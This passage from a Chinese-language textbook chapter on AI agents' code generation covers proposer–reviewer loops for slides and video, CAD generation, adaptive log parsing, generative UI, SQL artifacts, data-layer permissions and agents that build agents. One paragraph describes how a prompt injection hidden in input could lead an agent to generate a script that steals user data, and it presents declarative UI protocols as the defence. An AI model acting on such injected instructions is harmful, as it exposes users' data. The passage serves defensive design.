- **Reviewer Agent** 运行代码将每页渲染为图片，用 Vision LLM（能“看”懂图片的多模态大模型）从内容密度、可读性、布局合理性、视觉美感等维度分析渲染结果，生成**结构化的改进建议**——不是模糊的“不好看”，而是具体可执行的指导（如“第 3 页：内容过多，建议拆分”、“第 7 页：代码块字体过小，建议增大到 14pt”），包含页码、问题类型、严重程度等字段

Proposer 接收反馈后理解意图并修改代码，新版本再次提交 Reviewer 审查，迭代直到质量达标或达到最大迭代次数（如 5 轮）。“质量达标”与“最大轮数”正是 Loop 工程要求的两类显式终止条件：前者由审核者判定目标达成，后者用预算上限防止循环失控。

本章的提议者—审核者迭代循环与第四章的**事前审批**同属第一章命名的提议者—审核者模式：生成与审查分离、双模型独立评估（用 Loop 工程的语言说，就是“制造者”与“验证者”分离的子 Agent）。差异在目标与形态：第四章将其用于不可逆操作的安全审查，审核者对单次操作给出批准或否决；本章将其用于内容质量的迭代改进——多轮循环，且审核者接触到提议者看不到的新信息（渲染结果）。核心设计原则一脉相承（共享目标约束、使用不同模型家族降低同类错误概率、反馈作为特殊事件加入 Proposer 轨迹）。采用双 Agent 分工而非单 Agent 循环的**核心优势在于上下文管理**：Reviewer 每次只处理最新版本的渲染图片，不受历史版本干扰；Proposer 仅累积结构化文本反馈，token 消耗少且更易于推理。单 Agent 方案则需要在同一上下文中累积数十页渲染图片的多轮迭代，上下文迅速超限。这一机制将在后续的视频编辑和日志可视化实验中重复使用；第十章将进一步探讨提议者-审核者之外的其他多 Agent 协作模式。

> **实验 5-6 ★★：基于论文的 PPT 自动生成**
>
> **实验目标**：从学术论文自动生成高质量演示文稿，验证提议者-审核者机制在内容创作质量控制中的有效性。
>
> **技术方案**：使用 Slidev 框架。Proposer Agent 阅读论文 PDF，提取章节结构、核心论点和图表，规划 PPT 结构，逐页生成 Slidev 代码。**关键步骤**：Reviewer Agent 渲染每页截图，用 Vision LLM 检查渲染效果，识别文字溢出、内容拥挤、图片尺寸不当等问题，生成结构化改进建议。迭代直到效果达标。
>
> **验收标准**：生成 10-20 页 PPT，覆盖论文主要贡献。至少包含 3 张原文图表，且与文字说明匹配。渲染无文字溢出、布局合理。对比单 Agent 自我审查 vs 提议者-审核者分工在上下文消耗和生成质量方面的差异。
>

> **实验 5-7 ★★：论文讲解视频的自动生成**
>
> **实验目标**：扩展 PPT 生成能力，结合视觉和听觉通道实现视频讲解自动生成。
>
> **技术方案**：基于实验 5-6 的 PPT 生成流程，Agent 同时生成每页的口语化讲解文字（引导性叙述而非复述），调用 TTS（文本转语音）合成语音，用 ffmpeg 将 PPT 截图与音频同步合成视频。
>
> **验收标准**：视频 5-15 分钟，每页展示时间与语音时长精确匹配，讲解内容与视觉元素呼应。
>
>
> 
>
>

**视频编辑 Agent。**

用通用 Computer Use 做视频编辑面临根本挑战：视频剪辑软件 GUI 极其复杂，包含大量时间轴、图层、效果面板，Agent 需要精确定位这些界面元素并通过鼠标键盘操作编辑，精确输出坐标非常困难。

把视频编辑重构为 API 调用和代码生成问题则大幅降低了复杂度。许多专业软件（如 Blender——开源的 3D 创作与视频合成工具，支持 Python 脚本控制；FFmpeg——音视频处理领域的命令行瑞士军刀）提供了程序化 API 接口，以结构化、可组合的方式暴露核心功能。例如 Blender Python API 允许通过代码精确控制视频片段的导入、裁剪、排列、过渡效果、音频混合等操作，每个操作对应一个清晰的函数调用。对 Agent 而言，将自然语言需求转化为 API 调用，远比理解 GUI 界面并模拟鼠标点击容易得多。与 PPT 生成类似，视频编辑同样采用提议者-审核者机制——Proposer Agent 生成 Blender 脚本，Reviewer Agent 渲染关键帧并用 Vision LLM 检查效果，反馈修改建议。

> **实验 5-8 ★★：基于 API 的智能视频剪辑**
>
> **实验目标**：验证 Agent 通过生成 Blender Python API 代码实现视频编辑的能力，评估基于视觉反馈的提议者-审核者机制在多媒体内容处理中的作用。
>
> **核心挑战**：理解用户的自然语言编辑需求并转化为精确的 API 调用序列，处理多种编辑操作（剪辑、合并、字幕、音轨混合、视觉效果），确保生成的 Python 脚本正确执行。Proposer Agent 编写代码后无法直接判断视频效果，必须通过 Reviewer Agent 渲染并利用 Vision LLM 检查关键帧。
>
> **技术方案**：用户提供视频素材（如包含冲浪、徒步、滑雪等场景的原始素材）并以自然语言描述需求（如 “把冲浪部分剪出来”）。Proposer Agent 调用视频分析子 Agent，并采用**两步定位策略**：
>
> **第一步，粗粒度定位**：调用子 Agent 传入视频路径、每 10 秒截图间隔、目标问题。子 Agent 用 ffmpeg 截取关键帧，将所有截图连同问题输入 Vision LLM，返回场景区间（如 “冲浪在第 40-110 秒”）。
>
> **第二步，精细粒度定位**：缩小时间范围，以每秒一张的密度截图，再次调用子 Agent，精确定位边界时间点。
>
> 将视频分析封装为子 Agent 避免大量截图占用主 Agent 上下文。定位后生成 Blender API 脚本。Reviewer Agent 执行快速预览，检查关键帧并反馈修改建议，迭代直到达标再完整渲染。
>
> **验收标准**：Agent 能准确识别视频中不同场景，根据自然语言指令正确生成剪辑脚本。起始和结束点位置准确（误差不超过 3 秒）。如指令包含特效要求（慢动作、转场、字幕），生成的视频正确应用效果。Reviewer Agent 能检测明显错误（遗漏关键内容、包含无关片段）并触发修正。最终输出视频文件格式正确、画质符合预期。
>

**3D 与工业零件：代码生成与生成模型的边界。**

同样是“生成一个东西”，Agent 面前有两条路：一条是写代码精确构造（CadQuery、OpenSCAD、Blender API），另一条是直接调 3D 生成模型（混元 3D 这类 text/image-to-3D 模型，和文生图同属 diffusion 一系）。很多人纠结：到底什么时候该用代码生成，什么时候该用图片/3D 生成模型？

**一看产物有没有紧凑的精确描述。** 工业零件天然有紧凑的精确描述。一个法兰盘，外径、厚度、孔位圆直径、孔径、孔数，五六个参数就完整定义了，代码是它的**无损**表达。一盆绿植、一块太湖石、一张人脸就不一样了——它们有数不清的细节，**内在复杂度是近乎无限的**。

**二看精度要求和可验证性。** 零件的每个尺寸都是硬约束——孔径 5mm、公差 ±0.05mm，差一丝就是废品。代码生成的零件可以程序化验证：载入网格，量出外径、孔位，跟规格逐项对一遍。而 3D 生成模型生成的零件无法直接跟规格核对。

两条路还有一个更实际的差别：**表示形式和可编辑性**。制造流程要的是 B-rep（边界表示）参数化实体——STEP 文件里存着特征树和尺寸参数，可以直接驱动 CNC 加工。3D 生成模型吐出来的则是三角面片网格：曲面靠无数细碎面片逼近，放大看坑坑洼洼。等甲方说一句“安装孔从 M5 改成 M6”，差别就见分晓了：代码路线改一个数字重跑一遍，其余尺寸分毫不差；生成模型路线只能整个重新生成——别的尺寸会不会跟着跑偏，全凭运气。

所以，走哪条路本身就是 Agent 要做的一次决策：掂量产物的内在复杂度和精度要求，把任务分给代码生成或者 3D 生成模型。实际系统里两条路还可以混着走——几何体用代码参数化生成，表面纹理交给生成模型，各取所长。

> **实验 5-9 ★★：同一个零件的两种生成路线——代码与生成模型**
>
> **实验目标**：拿同一个带尺寸规格的机械零件，对比代码生成与 3D 生成模型两条路线在尺寸精度、可编辑性和制造可用性上的差异，验证“按内在复杂度与精度要求选路”的判断框架。
>
> **技术方案**：带明确规格的自然语言需求（如“法兰盘，外径 80mm，厚度 10mm，4 个均布 M5 安装孔，孔位圆直径 60mm”）。**路线 A**：Agent 编写 CadQuery（或 OpenSCAD）代码构造零件，导出 STEP 与 STL。**路线 B**：把同一规格交给 3D 生成模型（如混元 3D），得到三角面片网格。**程序化验证**：测量两条路线产物的关键尺寸（外径、厚度、孔位、孔径）与规格的偏差，并检查安装面的平整度。
> 
> 随后发出变更请求“安装孔从 M5 改为 M6”，记录两条路线各自的修改成本——代码路线改一个参数重新运行，生成模型路线只能整体重新生成，其余尺寸是否保持不变无法保证。
> 
> **对照组**：生成一盆绿植，两条路线的优劣正好反转——代码路线即便加入程序化噪声也僵硬呆板，生成模型路线则自然生动。

### 代码作为系统适配器

前几节的代码大多产出“面向人”的东西——报告、幻灯片、界面。这一节的代码指向另一个方向：**连接机器与机器**。真实系统里，Agent 要打交道的外部服务常常没有现成 SDK，接口也未必规范——文档缺失、返回格式非标准、字段随版本漂移。面对这种情况，Agent 不必等人预先写好适配层，而是当场阅读接口文档或直接观察一两条真实响应，即时生成适配代码：构造 HTTP 客户端、拼装鉴权头、解析非标准的返回结构、把上游的数据模型转换成下游可用的格式。代码在这里成了连接任意系统的“万能胶”——哪里接不上，就现场生成一段胶水补上，这正是元能力“系统接口”方向的核心。下面要展开的日志自适应解析，是这一能力在可观测性场景下的具体化：面对不断演化的日志格式，Agent 同样靠现场生成解析代码来适配。

这种“万能胶”还能延伸到**完全没有 API 的系统**：当外部系统只暴露图形界面时，Agent 可以先通过 Computer Use（第六章将详细介绍）操作界面，再把成功完成的操作序列用代码固化为 RPA 工具——未来执行相同任务时直接运行代码，以极高的速度和稳定性完成操作，无需再调用昂贵的视觉思考。可以说，RPA 是“系统适配器”在无接口系统上的极端形态；这种“工作流录制与固化”机制将在第九章展开。

数据处理是软件系统中最常见但也最令人头疼的任务之一。根源在于数据格式的多样性和不断变化。同一系统在演化过程中可能多次修改数据格式——添加新字段、改变嵌套结构、引入新类型。为每种格式手写解析代码，维护成本极高，每次格式修改都需要更新解析逻辑、测试兼容性、部署新版本。

代码生成提供了一种全新思路：让 Agent 在遇到新格式时基于样本数据临时生成解析代码，系统自动适应数据格式的演化，无需人工干预。

**Agent 日志解析和可视化。**

Agent 系统的可观测性依赖于对执行流程的可视化。一个复杂的 Agent 任务可能包含数百步操作，涉及多次 LLM 调用、数十次工具执行、多次子 Agent 交互。可视化这些数据面临多重挑战：不同工具返回不同结构的数据，格式随系统迭代不断演化；一个完整轨迹可能包含数十万字符，需要在概览和细节之间找到平衡。

代码生成提供了一种优雅的解决方案：建立一个自动修复的反馈循环。当前端遇到无法解析的日志格式时，不是显示错误，而是自动将失败信息（原始日志样本、详细报错）报告给 Agent。Agent 分析样本数据结构，生成能正确解析的前端代码。代码先在虚拟浏览器中自动测试（验证解析正确性，用 Vision LLM 检查可视化效果），通过后热更新到前端系统。

> **实验 5-10 ★★★：自适应的日志解析系统**
>
> **实验目标**：构建能自我进化的 Agent 日志可视化系统。
>
> **技术方案**：初始系统仅支持基本格式。前端检测解析失败→报告 Agent→生成解析代码→虚拟浏览器测试→热更新部署。全流程自动化。
>
> **验收标准**：自动检测失败并触发学习，生成代码通过自动测试，热更新后正确解析新格式。
>

**Agent 执行日志自动分析和问题诊断。**

生产环境的 Agent 会产生大量轨迹日志（trajectory，记录每次任务的完整过程）。然而从日志中识别问题、定位根因、构建测试用例是一项高成本的工作。问题定位困难，因为任务失败可能由多个模块的协同错误导致；复现成本高，因为生产环境的复杂性难以在测试环境中模拟；已修复的问题容易反复出现，因为缺乏系统化的回归测试。

代码生成为诊断提供了自动化路径。Agent 可以读取生产日志，结合架构文档和 PRD（产品需求文档）自动判断执行流程是否符合预期，定位有问题的环节和模块，再根据分析结果生成结构化问题报告（优先级、模块、描述、改进建议）和回归测试用例。测试用例引用问题轨迹 ID 和关键交互轮次，测试框架通过自动重放，验证修复后的系统在相同输入下能否产生正确行为。最后，Agent 通过 MCP 对接 GitHub，创建 Issue 并分配给相关开发者，完成从问题发现到任务分派的全自动化。

> **实验 5-11 ★★★：生产日志的智能诊断系统**
>
> **实验目标**：从生产轨迹中自动发现问题、生成测试用例、创建工作项。
>
> **技术方案**：Agent 读取生产环境的轨迹集合，结合系统架构文档和 PRD 进行分析：识别问题模式，定位涉及的模块。生成结构化问题报告（优先级、模块、描述、改进建议）。自动生成回归测试用例（引用轨迹 ID 和交互轮次，由测试框架自动重放验证）。通过 MCP 对接 GitHub 自动创建 Issue。
>
>
> 
>
>

### 代码作为生成式 UI

传统 Agent 系统主要依赖纯文本对话与用户交互。然而文本作为线性、单一的交互方式，在很多场景下效率低下。需要收集结构化信息时，反复问答让对话变得冗长；需要呈现复杂数据关系时，纯文本的表达力有限；需要让用户在多个选项中选择时，文本列表远不如可视化界面直观。

代码生成为突破这些限制提供了可能：Agent 可以动态生成表单、交互式图表甚至完整的 Web 应用，将静态文本对话升级为丰富的多模态交互。这种由 Agent 动态生成界面的模式被称为**生成式 UI**（Generative UI）。

**A2UI 类协议：生成式 UI 的标准化。**

当 Agent 直接生成 HTML 和 JavaScript 代码作为 UI 时，存在一个根本性的安全问题：生成的代码可能包含恶意内容。例如，如果有人在输入中故意藏了一段指令，Agent 可能被提示注入操纵、不知不觉地生成一段会窃取用户数据的脚本。这里要厘清因果：成因是**提示注入**（恶意指令混进了 Agent 的输入），而最终在浏览器里执行恶意脚本、窃取数据的**效果**则类似传统 Web 的 XSS（Cross-Site Scripting，跨站脚本攻击）——不能把整个攻击直接叫作 XSS。以 A2UI（Agent-to-User Interface）为代表的声明式界面协议提供了一种更安全的方向：Agent 不直接生成可执行的代码，而是只输出一份“界面描述清单”（JSON 格式），比如“请显示一个包含 3 行 2 列的表格，标题是「销售数据」”。客户端收到这份清单后，用自己预先准备好的安全组件来渲染界面。这就像餐厅的菜单：顾客（Agent）只能点菜单上有的菜（预定义的组件），而不能走进厨房自己做（执行任意代码）。这里要厘清一个常见混淆：AG-UI（Agent-User Interaction，CopilotKit 提出）虽然名字相近，却并不是一种界面描述语言，而是配套的**事件/传输协议**，负责把 Agent 的执行状态（消息、工具调用、状态补丁）流式推送到前端，它本身甚至可以承载 A2UI 这样的界面载荷。因此二者互补而非同类，不应并列为同一种“声明式界面协议”。

这类协议的核心设计原则是**安全优先**：客户端维护一个受信任的组件目录（如 Card、Button、TextField、Table），Agent 只能请求渲染目录中已有的组件，无法注入任意代码。客户端用自己的原生组件渲染，而不是执行 Agent 生成的任意 HTML。这类协议通常还会支持**跨平台**（同一份描述在 React、Flutter、原生应用中渲染）和**增量生成**（流式 JSONL 格式，边接收边渲染）。

当然，声明式方法适用于标准化的交互场景（表单、表格、卡片），而对于高度定制化的需求（如自定义可视化、游戏界面），直接生成代码仍然是更灵活的选择。下面展示两种模式的具体应用。

**用 HTML 交付成果：取代 Markdown 汇报。** 生成式 UI 不只用在交互过程中，也正在改变 Agent 最终**交付成果**的形态。传统上，Agent 干完一项任务后往往产出一份 Markdown 汇报文档；但一页页翻读线性排布的 Markdown 其实并不好读。随着 Agent 生成前端代码的能力越来越强，越来越多的实践改为让它直接产出 HTML。相比 Markdown，HTML 交付件有几个明显的优势。其一是**交互式演示**：可以用可操作的形式直接演示系统是如何运行的，用户往往一看就懂，胜过大段文字描述。其二是**更好的数据可视化**：用图表而非表格来呈现数据，还能构建交互式组件，让用户自行浏览、筛选、下钻到自己关心的细节。其三是**可持续完善的交付件**：HTML 网站不必是任务结束时才一次性产出的死物，而可以在工作推进的过程中，由 Agent 不断补充和完善。

以笔者自己写论文的经历为例：笔者会为每个研究项目维护一个交互式网站[^ch5-4]。它既是最终的交付件，也是研究过程中的一份活文档——笔者会让 Agent 随着实验的推进持续更新它。这个网站至少承担三类作用。其一是**实验数据追溯**：每一次实验的具体数据、所用的 prompt 以及 LLM 的原始回复，都能在网站上逐条查看；把这些摊开来，反而更容易发现数据构造、数据格式、数据分布上的问题，也更容易看出 LLM 的回复和 judge 的打分是否存在系统性偏差。其二是**训练指标监控**：把训练过程中的各条曲线直接列在网页上，方便随时确认模型的**内科指标**是否健康。这里借用医学里“内科”的说法——内科指标指的是反映训练过程本身是否正常的内部信号，例如训练损失与验证损失、梯度范数、学习率、模型输出 token 时的困惑度（perplexity，衡量模型对自己生成内容的“把握”程度），以及强化学习中的奖励、KL 散度、策略熵等。它们不同于任务准确率那类最终的结果指标：正如体检时的各项生理指标之于一个人的外在表现，内科指标往往能更早地暴露出损失不收敛、梯度爆炸、训练崩溃等问题。其三是**运行原理展示**：用可视化的方式把整个系统的运行原理呈现出来，让人一眼就能看清这个由 AI 搭起来的系统到底是什么结构。

[^ch5-4]: 笔者的研究项目网站见 https://01.me/research/ ，其中每个项目都配有一个持续更新的交互式网站。

**澄清用户意图。**

当用户需求表达模糊或不完整时，Agent 需要通过澄清问题来收集必要信息。OpenAI Deep Research 等产品通常采用文本问答方式，但这存在明显局限：效率上，每个问题需要一轮对话，十个澄清点就需要十轮交互；表达力上，某些问题之间存在依赖关系（比如“选择旅行目的地”会影响“交通方式”的可选项），纯文本难以表达这种级联关系。

通过代码生成，Agent 可以创建结构化的交互界面来替代文本问答。图5-8 展示了动态表单生成流程，说明 Agent 如何把澄清问题转化为一次性填写的结构化界面。Agent 生成包含各种输入控件的 HTML 表单——文本框收集开放性信息、下拉菜单让用户在预定义选项中选择、复选框允许多选、日期选择器简化时间输入。更进一步，Agent 可以生成级联表单——通过 JavaScript 实现动态逻辑：选择某选项后自动显示或隐藏后续问题，动态更新可选项。用户一次填完整张表单，无需多轮对话，还能清晰看到所有需填写的信息和问题之间的逻辑关系。




> **实验 5-12 ★★：动态表单生成的意图澄清系统**
>
> **实验目标**：验证 Agent 通过动态生成 HTML 表单澄清用户意图的能力。
>
> **技术方案**：Agent 分析用户请求，识别澄清点，生成含级联逻辑的表单代码。前端渲染，用户一次提交，Agent 解析 JSON 数据继续任务。
>
> **验收标准**：用户输入 “我想订一张去北京的机票”，Agent 生成表单包含：出发城市（文本输入）、出发日期（日期选择器）、旅行类型（单选：单程/往返）、返程日期（仅选择 “往返” 时显示）。用户一次提交完成所有信息。
>

**生成 SQL 查询。**

数据库查询是代码生成能显著提升交互体验的场景。传统的数据库访问依赖 GUI 工具或手写 SQL，前者操作繁琐，后者要求用户具备专业知识。Agent 可以将自然语言转为 SQL，但这里有一个关键的设计选择：是让 Agent 执行 SQL 后用自然语言描述结果，还是让 Agent 生成 SQL 代码作为 artifact，交由前端直接执行？

第一种方案看似更“智能”，但效率极低——查询结果可能包含数千行大表格，让 LLM 阅读后再用文字描述，不仅会消耗大量 token、耗费很长时间，更严重的是，LLM“抄写”数据时非常容易出错。更好的方案是 **Artifact 模式**。图5-9 展示了 SQL 查询 Agent 的工作流程：Agent 不自己读数据，而是生成一段 SQL 查询代码，把这段代码作为一个独立的**可执行产物**（artifact）交给系统。系统拿着这段 SQL 直接去数据库查询，把查到的数据渲染成用户能看到的表格。整个过程中，数据从数据库直达用户界面，完全绕过了 LLM 这个“中间人”——LLM 只负责写查询语句，不需要亲自去读成千上万行数据再复述给用户，既快速又准确。

生成的 SQL 和可视化代码不能直接执行。执行层应使用只读数据库账号，解析 SQL 并只允许经过批准的 `SELECT` 语句，拒绝 DDL、DML 和多语句查询；用户提供的值应由服务端参数化绑定，同时限制查询时间、返回行数以及可访问的表和时间范围。可视化代码应在隔离网络和文件系统的沙盒中运行，并且只能产生规定格式的结果。Artifact 模式缩短了数据路径，但不能替代权限检查与执行隔离。


更进一步，Agent 可以生成两个 artifact 形成流水线：SQL 查询 + 可视化代码（如柱状图）。前端将 SQL 结果直接传给可视化代码，LLM 只负责生成代码，不参与数据传递——这正是代码生成作为接口的精髓。

> **实验 5-13 ★★：自然语言交互的 ERP Agent**
>
> ERP（企业资源规划）软件是企业的关键系统，目前一般使用 GUI 界面，复杂操作需多次鼠标点击。AI Agent 可将用户自然语言查询转换成 SQL 语句，实现自动化查询。
>
> 要求建立 PostgreSQL 数据库，包含两个表：(1) 员工表，包含员工 ID、姓名、部门、级别、入职日期、离职日期（空表示在职）；(2) 工资表，包含员工 ID、发薪日期、工资（每月一条记录）。Agent 自动回答：
>
> 1. 平均每个员工在职多久？
> 2. 每个部门有多少在职员工？
> 3. 哪个部门员工平均级别最高？
> 4. 每个部门今年和去年各新入职多少人？
> 5. 前年 3 月到去年 5 月，A 部门的平均工资？
> 6. 去年 A 部门和 B 部门的平均工资哪个高？
> 7. 今年每个级别的员工平均工资？
> 8. 入职一年内、一到两年、两到三年的员工最近一个月平均工资？
> 9. 去年到今年涨薪幅度最大的 10 位员工？
> 10. 有没有拖欠工资（某月在职但未发薪）？
>

**动态生成软件。**

代码生成能力的终极应用是让 Agent 完全动态地、从零开始创建软件。Anthropic 的“Imagine with Claude”展示了这种可能性的边界：用户提出需求，Claude 实时生成前端界面和交互逻辑，用户与生成的软件交互，Claude 修改代码生成新界面展示操作结果。整个过程中用户看到一个从无到有、持续演化的应用程序。

不过，这种完全动态生成的模式成本和延迟较高，更适合作为展示能力边界的实验。一个更务实的方向是**基于已有框架进行定制化修改**。这种“半定制”模式保留基础软件的稳定性，同时在特定维度上开放用户控制权——用户说“把按钮改成蓝色”“在侧边栏添加快捷菜单”“修改字体为更易读的样式”，Agent 理解需求并修改前端代码，热加载（HMR，Hot Module Replacement，局部热替换、保留应用状态、无需整页刷新即可生效）即时生效。这将“一刀切”的标准产品转变为“千人千面”的个性化体验。

> **实验 5-14 ★★：对话式界面定制系统**
>
> **实验目标**：让用户能够通过自然语言对话即时定制软件界面，验证由热加载机制支持的代码生成能否有效提供个性化用户体验。
>
> **技术方案**：构建基础 chatbot 应用（React 前端 + FastAPI 后端），前后端均运行在开发模式下支持热加载（React 的 HMR，FastAPI 的 reload）。用户在对话中提出 UI 定制需求（颜色、字体、布局、组件位置等），Agent 自主修改代码。热加载机制自动检测文件变化，前端重新编译刷新，用户实时看到界面变化。支持多轮迭代定制。

动态生成软件在带来灵活性的同时，也改变了传统软件的安全前提。过去，应用的业务代码经过开发、审查、测试和部署后，在一段时间内基本保持稳定，因此**权限判断通常写在应用层**：业务代码先判断 “当前用户能否读取或修改这条数据”，再向数据库发起操作。但当接口、工作流乃至数据访问代码都由 Agent 随时生成或改写时，这一层不再稳定。新生成的代码可能漏掉一项细微的权限检查、暴露原本不可见的字段，或者通过另一条调用路径绕开已有判断。无论原因是普通的生成错误，还是 Agent 受到提示注入后生成了危险代码，结果都一样：原本希望由业务代码维持的权限边界可能被悄然破坏。

因此，动态生成软件的安全目标不能是 “保证 AI 每次都把权限检查写对”，而应该是：**即使 AI 写错了代码，权限约束仍然无法被绕过**。如果权限检查本身也放在动态生成的业务逻辑中，它就与被约束的代码处在同一个信任域里。提示词可以要求 Agent 检查权限，测试和代码审查也能降低出错概率，但这些手段很难穷尽每一条新生成的执行路径，无法构成最终的安全边界。

更稳妥的架构是**把信任边界下移到数据层**——也就是第一章三层护栏中最难被绕过的那一层。动态生成的应用层可以负责界面、流程和业务编排，而真正决定 “谁能对哪条数据做什么” 的规则，则由一层稳定、经过人类审查的机制强制执行。例如，数据库的行级安全策略可以限制用户只能访问所属租户的数据，约束和校验器可以拒绝非法状态，受控视图、存储过程或数据访问服务可以只暴露允许的操作。每次读写还应携带由受信任运行时绑定的**访问上下文**（access context），其中包含用户、租户、角色或 Agent 身份；动态生成的代码只能以这个受限身份访问数据，不能自行伪造身份，也不能获得可绕过规则的高权限数据库凭证。这样，即使它完全漏写了权限判断，数据层仍会拒绝越权操作。

把权限下沉并不意味着所有业务逻辑都要塞进数据库。应用层仍可做权限预检查，以便尽早给用户反馈；但数据层必须保留最终裁决权。同一条规则可以在上层用于改善体验，在下层用于提供保证。这个保证还有一个必要条件：所有数据访问路径都必须经过受信任的数据层，不能让生成代码绕过它直连数据库。由此，动态生成软件可以让上层持续变化，同时把不可违反的权限约束留在不会随每次生成而重写的数据层中。

> **实验 5-15 ★★★：动态生成软件的权限内嵌数据对象**
>
> **实验目标**：构建一个允许应用层代码动态生成或重写、但仍能在数据层强制执行权限和数据完整性的对象存储。验证生成代码即使跳过状态机、写入越界数据或尝试跨租户读取，也不能突破稳定的数据层边界。
>
> **技术方案**：在 PostgreSQL 之上提供 Python 对象存储中间层。数据类型声明自己的权限规则、访问上下文、校验器、对象关系和后果反应；每次读写对象都依次经过权限与校验流水线、持久化及引用完整性校验等。
>
> **验收标准**：合法的招聘流程更新成功；跳过候选人状态转换、写入超出职位范围的工资和跨租户读取均被数据层拒绝。

### 代码创造代码：Agent 自举

前面几节展示了代码生成在各个领域的应用——从数学思考到文档创作再到界面定制。如果我们把这些能力推向极限，会出现一个自然的问题：Agent 能不能用代码生成能力来创造另一个 Agent？


**Agent 的自我修复：OpenClaw Doctor。**

Agent 自举的一个重要前提是自我修复能力。OpenClaw 的 `doctor` 命令正是这种能力的体现——它能自动检测三类问题：

- **配置异常**：过期的 OAuth token、遗留的配置格式、端口冲突
- **状态问题**：陈旧的会话锁文件、插件依赖缺失
- **服务健康问题**：网关未运行、沙盒镜像缺失

然后通过分层修复策略自动解决：安全的修复（配置归一化、锁文件清理）自动执行；有风险的操作（服务重启、强制覆盖配置）需要用户确认。

这里要避免夸大 Agent 在自我修复能力中的作用：过期 token、锁文件、端口冲突这类高频问题，本身就有明确的检测规则和固定的修复动作，`doctor` **以一组确定性检查为基础**先把它们覆盖掉——这与传统运维脚本并无本质不同。真正体现 Agent 能力的是第二层：对确定性规则未覆盖的疑难问题，`doctor` 再把它交给 LLM 分析错误日志、理解配置文件的语义、推断问题的因果关系，生成针对性的修复方案。确定性检查保证常见问题被稳定修复，LLM 兜底应对长尾疑难——两层配合，`doctor --fix` 才能自动解决相当一部分常见网关问题。在这种“Agent 修复 Agent”的模式中，当 Agent 的工作对象不再是外部系统，而是它自身的运行环境时，自我修复能力就从系统适配器升级为 Agent 自举的基础设施。

**让 Agent 编写 Agent 的关键技巧。**

创造高质量 Agent 远比生成普通应用代码复杂，因为它需要对 Agent 架构模式、最佳实践和常见陷阱有深入理解。如果缺乏这种领域专业知识，即使最强大的代码生成模型也可能创造出架构上有严重缺陷的 Agent。常见缺陷包括：

1. **上下文管理的随意性**：未采用第二章讨论的标准上下文格式，将轨迹转为纯文本塞进上下文，忽略结构化消息带来的 KV Cache 优化，工具调用循环存在边界 bug
2. **工具设计的不规范**：描述简略、缺少使用边界说明和负面清单、参数缺乏具体示例
3. **技术选型的滞后性**：倾向使用训练数据中最常见但已过时的模型和 API。解决方案：维护 SOTA 知识库或赋予 Agent 搜索能力
4. **外部生态的脱节**：使用废弃 API、不再维护的库或有缺陷的模式

解决这些问题的最有效路径，不是在提示词中穷尽所有规则，而是**提供高质量的 Agent 实现作为参考范例**，引导代码生成 Agent 在此基础上修改，而非从零开始。

“基于范例的生成” 优势明显：范例代码本身就是最佳实践的载体，Agent 基于范例修改比从零编写更容易做对，架构上的好选择会自然保留下来，而不需要在提示词里把每一条规则都说清楚。

Agent 接到开发新 Agent 的任务时，应首先复制自己的代码（或其他经过验证的高质量 Agent 实现），然后针对性修改：调整系统提示词匹配新角色，替换或增删工具适应新功能，修改业务逻辑但保留架构框架。这种“自我复制并适应性修改”的模式，既保证新 Agent 继承核心技术优势，又允许在特定维度上差异化——就像生物学中的基因复制加变异。

> **实验 5-16 ★★★：开发一个能创造 Agent 的 Agent**
>
> **实验目标**：构建具备元编程（Metaprogramming，即编写能生成或修改其他程序的程序）能力的 Coding Agent，能根据用户需求自动创建新 Agent 系统，确保遵循最佳实践。
>
> **技术方案**：为 Coding Agent 提供高质量 Agent 实现作为参考范例（可使用 ch5/coding-agent 项目本身）。当接到创建新 Agent 的需求时，Agent 首先复制这个范例代码，然后基于用户的具体需求进行针对性修改。
>
> **验收标准**：生成的 Agent 能成功运行并完成基本任务。验证采用标准消息格式和工具调用协议，使用当前推荐的模型和 API。测试多轮对话中上下文和状态管理的正确性。对比从零生成和基于范例修改两种模式，验证后者在质量和效率上的优势。
>
>
> 
>

## 本章小结

本章讨论的核心始终是同一件事：代码不只是写程序的工具，它是 Agent 形式化思考和精确表达的语言。

Harness 工程那一节的核心结论是：Coding Agent 之所以成熟度高，不是因为代码生成模型特别强，而是因为软件工程几十年攒下的基础设施——测试套件、类型系统、版本控制——天然构成了一套强大的 Harness。这个结论值得推广到其他 Agent 场景。故障与错误恢复一节则给出了同一主题的另一面：Agent 的可靠性不取决于模型犯不犯错，而取决于每类故障是否都有对应的检测、恢复、接管与终止路径。

第二部分展示了代码生成在编程之外的广泛价值，对应正文的六个维度：

- **思考工具**：借助符号计算和约束求解弥补概率思考的不足
- **业务规则约束**：以无歧义方式表达业务规则，在不可逆操作场景中提供确定性安全防线
- **多媒体生成**：通过提议者-审核者机制创建 PPT、视频等多模态内容；代码生成与生成模型的选择取决于产物的内在复杂度与精度要求
- **系统适配器**：跟随格式演化，自动完成日志解析和问题诊断
- **生成式 UI**：动态创建表单、可视化图表甚至完整可定制应用，突破纯文本限制
- **Agent 自举**：用代码修复和创造同类 Agent，实现能创造 Agent 的 Agent

代码对 Agent 的价值在于：它既是完成任务的手段，也是积累知识、创造工具、优化自身的机制。

至此，我们已经把上下文、知识、工具与代码能力组合成通用 Agent 的基础架构，而代码生成正是其中通用性最强的元能力。但前五章仍默认 Agent 与世界轮流行动。第六章将补上“构建 Agent”的最后一块，把观察与动作空间扩展到异步事件、语音、屏幕和物理世界；完成这一步后，第七章再转向评估与持续改进。

## 思考题

1. ★★ 代码生成被称为 Agent 的“元能力”。但代码执行引入了安全风险——Agent 生成的代码可能包含漏洞、无限循环或资源耗尽。沙盒隔离能解决部分问题，但也限制了代码能力（比如无法访问网络或文件系统）。如何在安全性和能力之间找到最优平衡点？
2. ★★★ Agent 自举——能创造 Agent 的 Agent——实现了“智能的自我繁殖”。但每次自举都可能引入新的偏差或错误，这种错误会在代际间累积吗？如何防止 Agent 自举的退化？
3. ★★ 代码生成 Agent 在处理日志解析时，能自动跟随格式演化。但如果格式变化是一个 bug 而非预期改动，Agent 的适应性反而掩盖了问题。Agent 应该如何区分“需要适应的变化”和“需要报告的异常”？
4. ★★ 本章在 PPT 生成、视频编辑和日志可视化中反复使用提议者-审核者机制。如果 Reviewer 的审美偏好与目标用户不一致，比如 Reviewer 认为信息密度合理但用户觉得太拥挤，反馈循环会收敛到错误的局部最优。如何让用户的偏好反馈也参与 Reviewer 循环？
